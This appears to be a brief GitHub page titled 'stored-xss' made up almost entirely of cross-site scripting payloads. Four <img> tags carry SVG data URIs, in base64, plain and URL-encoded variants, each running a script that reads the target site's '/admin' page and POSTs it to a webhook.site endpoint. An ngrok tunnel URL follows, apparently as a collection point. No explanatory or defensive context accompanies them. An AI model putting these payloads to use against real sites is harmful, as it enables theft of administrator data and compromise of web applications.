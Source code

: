 # stored-xss

<img src="data:image/svg+xml;base64,PHN2ZyB4bWxucz0naHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmcnIHZpZXdCb3g9JzAgMCAxMDAgMTAwJz48c2NyaXB0PmZldGNoKCcvYWRtaW4nKS50aGVuKHIgPT4gci50ZXh0KCkpLnRoZW4oZSA9PiB7ZmV0Y2gnKCdodHRwczovL3dlYmhvb2suc2l0ZS9kMDgyMmZhNC03MThlLTQxMTctOTMwMC1iYTVjOGRlNzEwZDcnLHttZXRob2Q6J1BPU1QnLG1vZGU6J25vLWNvcnMnLGJvZHk6YXRvYihlKX0pfTwvc2NyaXB0Pjwvc3ZnPg==" />


<img src="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>fetch('/admin').then(r=>r.text()).then(f=>fetch('https://webhook.site/d0822fa4-718e-4117-9300-ba5c8de710d7',{method:'POST',body:f}))</script></svg>">

<img src="data:image/svg+xml,%3Csvg%20xmlns%3D%27http%3A//www.w3.org/2000/svg%27%3E%3Cscript%3Efetch%28%27/admin%27%29.then%28r%3D%3Er.text%28%29%29.then%28f%3D%3Efetch%28%27https%3A//webhook.site/d0822fa4-718e-4117-9300-ba5c8de710d7%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Af%7D%29%29%3C/script%3E%3C/svg%3E">
<img src="data:image/svg+xml,%3Csvg%20xmlns%3D%27http%3A//www.w3.org/2000/svg%27%3E%3Cscript%3Efetch%28%27/admin%27%29.then%28r%3D%3Er.text%28%29%29.then%28f%3D%3Efetch%28%27https%3A//webhook.site/<your-id>%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Af%7D%29%29%3C/script%3E%3C/svg%3E">


https://8b5f729c5264.ngrok-free.app/

